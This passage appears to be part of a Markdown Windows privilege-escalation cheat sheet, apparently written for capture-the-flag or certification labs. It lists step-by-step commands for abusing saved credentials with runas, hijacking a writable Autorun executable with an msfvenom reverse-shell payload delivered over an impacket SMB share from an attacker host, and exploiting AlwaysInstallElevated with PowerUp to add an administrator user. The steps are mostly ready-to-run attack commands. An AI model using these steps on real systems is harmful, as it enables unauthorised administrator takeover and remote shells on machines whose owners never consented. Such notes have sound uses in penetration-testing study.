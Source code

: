 
**Escalation via Runas:**
1. `cmdkey /:os`
2. `cmdkey /list`
3. `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"`

## 15. Registry <a name="Registry"></a>

### 15.1 Registry Escalation - Autorun
1. `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` for  query the registry for AutoRun executables. Also we can use "autorun64.exe" by sysinternals too.
2. `C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
"accesschk.exe" is another tool by sysinternals.
	1.	`-w` for only show items that are writable.
	2.	`-v` for verbosity
	3.	`-u` don't show errors

3. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe` for gerating payload.
4. `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .` 
`copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe` for copying the reverse shell on windows.
5. `copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y` here is reverse.exe is a malicious file which is replaced for program.exe. So when next time if an admin logins our malicious file will get executed.

Another method is...
1. Open command terminal in PowerUp tool folder. 
2. `powershell -ep bypass`
3. `. .\PowerUp.ps1`
4. `Invoke-AllChecks` it will look for different checks.
5. When scroll it will identify run program.exe. 
6. Then continue from step 3-5 as shown above.

### 15.2 AlwaysInstalledElevated
1. `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
 ![lab](WP/007.PNG)
2. `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
![lab](WP/008.PNG)
3. If we run PowerUp we need to check for "Write-UserAddMSI"
	1. Open command terminal in PowerUp tool folder. 
	2. `powershell -ep bypass`
	3. `. .\PowerUp.ps1`
	4. `Invoke-AllChecks` it will look for different checks.
	5. look for "Write-UserAddMSI"
	6. Run `Write-UserAddMSI` it will install malicious application.
	7. Go to Powerup folder and double click UserAdd then we can add username, password, group everything.